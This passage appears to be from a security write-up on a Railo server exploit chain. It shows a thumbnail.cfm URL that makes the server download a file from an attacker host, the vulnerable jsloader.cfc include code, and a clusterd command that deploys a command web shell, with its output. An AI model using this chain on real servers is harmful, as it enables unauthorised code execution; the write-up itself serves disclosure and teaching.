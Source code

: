 The `cffile` tag is used to read the raw image and then cast it via the `cfimage` tag.  The wonderful thing about `cffile` is that we can provide URLs that it will arbitrarily retrieve.  So, our URL can be this:

```
192.168.1.219:8888/railo-context/admin/thumbnail.cfm?img=http://192.168.1.97:8000/my_image.png&width=5000&height=50000
```

And Railo will go and fetch the image and cast it.  Note that if a height and width are not provided it will attempt to resize it; we don't want this, and thus we provide large width and height values.  This file is written out to `/railo/temp/admin-ext-thumbnails/[HASH].[EXTENSION]`.

We've now successfully written a file onto the remote system, and need a way to retrieve it.  The temp folder is not accessible from the web root, so we need some sort of LFI to fetch it.  Enter `jsloader.cfc`.  

`jsloader.cfc` is a Railo component used to fetch and load Javascript files.  In this file is a CF tag called `get`, which accepts a single argument `lib`, which the tag will read and return.  We can use this to fetch arbitrary Javascript files on the system and load them onto the page.  Note that it MUST be a Javascript file, as the extension is hard-coded into the file and null bytes don't work here, like they would in PHP.  Here's the relevant code:

```
<cfset var filePath = expandPath('js/#arguments.lib#.js')/>
    <cfset var local = {result=""} /><cfcontent type="text/javascript">
        <cfsavecontent variable="local.result">
            <cfif fileExists(filePath)>
                <cfinclude template="js/#arguments.lib#.js"/>
            </cfif>
        </cfsavecontent>
    <cfreturn local.result />
```

Let's tie all this together.  Using `thumbnail.cfm`, we can write well-formed images to the file system, and using the `jsloader.cfc` file, we can read arbitrary Javascript.  Recall how log injection works with PHP; we can inject PHP tags into arbitrary files so long as the file is loaded by PHP, and parsed accordingly.  We can fill a file full of junk, but if the parser has its way a single `<?phpinfo();?>` will be discovered and executed; the CFML engine works the same way. 

Our attack becomes much more clear: we generate a well-formed PNG file, embed CFML code into the image (metadata), set the extension to `.js`, and write it via `thumbnail.cfm`.  We then retrieve the file via `jsloader.cfc` and, because we're loading it with a CFM file, it will be parsed and executed.  Let's check this out:

```
$ ./clusterd.py -i 192.168.1.219 -a railo -v4.1 --deploy ./src/lib/resources/cmd.cfml --deployer jsload

        clusterd/0.3.1 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-06-15 03:39PM] Started at 2014-06-15 03:39PM
 [2014-06-15 03:39PM] Servers' OS hinted at windows
 [2014-06-15 03:39PM] Fingerprinting host '192.168.1.219'
 [2014-06-15 03:39PM] Server hinted at 'railo'
 [2014-06-15 03:39PM] Checking railo version 4.1 Railo Server...
 [2014-06-15 03:39PM] Checking railo version 4.1 Railo Server Administrator...
 [2014-06-15 03:39PM] Checking railo version 4.1 Railo Web Administrator...
 [2014-06-15 03:39PM] Matched 2 fingerprints for service railo
 [2014-06-15 03:39PM]   Railo Server Administrator (version 4.1)
 [2014-06-15 03:39PM]   Railo Web Administrator (version 4.1)
 [2014-06-15 03:39PM] Fingerprinting completed.
 [2014-06-15 03:39PM] This deployer (jsload_lfi) requires an external listening port (8000).  Continue? [Y/n] > 
 [2014-06-15 03:39PM] Preparing to deploy cmd.cfml...
 [2014-06-15 03:40PM] Waiting for remote server to download file [5s]]
 [2014-06-15 03:40PM] Invoking stager and deploying payload...
```
